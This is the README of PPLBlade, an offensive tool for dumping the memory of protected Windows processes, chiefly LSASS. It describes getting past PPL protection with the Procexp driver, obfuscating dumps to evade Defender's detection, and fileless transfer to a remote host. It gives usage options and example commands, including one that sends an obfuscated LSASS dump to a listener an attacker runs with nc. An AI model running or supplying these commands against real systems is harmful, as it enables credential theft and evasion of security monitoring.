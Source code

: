 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

Key functionalities:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe.

It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

Modes:
1) Dump - Dump process memory using PID or Process Name
2) Decrypt - Revert obfuscated(--obfuscate) dump file to its original state
3) Cleanup - Do cleanup manually, in case something goes wrong on execution(Note that the option values should be the same as for the execution, we're trying to clean up)
4) DoThatLsassThing - Dump lsass.exe

Handle Modes:
1) Direct - Opens PROCESS_FULL_ACCESS handle directly, using OpenProcess() function
2) Procexp - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

`PPLBlade.exe --mode dothatlsassthing`

Upload the obfuscated LSASS dump onto a remote location:

`PPLBlade.exe --mode dump --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234 --handle procexp --name lsass.exe`

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
`PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade`

